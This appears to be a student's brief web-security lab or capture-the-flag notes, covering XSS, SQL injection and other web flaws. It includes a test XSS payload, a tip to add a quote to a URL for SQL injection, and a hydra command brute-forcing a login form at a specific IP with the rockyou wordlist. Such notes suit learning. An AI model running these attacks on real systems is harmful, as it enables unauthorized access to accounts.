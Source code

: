 # boxes : security

## Notes

### XSS

Cross-site-scripting. When user input is reflected back in delivered page content (without being cleaned), it becomes possible to run arbitrary code by sending sneaky user input.

```html
<script>alert(1)</script>
```

### SQL injection
Add ' to end of URL

### Forbidden Access

Is there another way to access restructed pages?

### Button
inject code into click responses...



### Hideen fields

### Login page...password cracking

rockyoulist.txt

hydra -vV -t 16 -S -L rockyou.txt -p "idk" 34.208.128.127 http-post-form "/479d9e89892c5b613157afcade304547/login:username=^USER^&password=^PASS^:Invalid username"

SWEET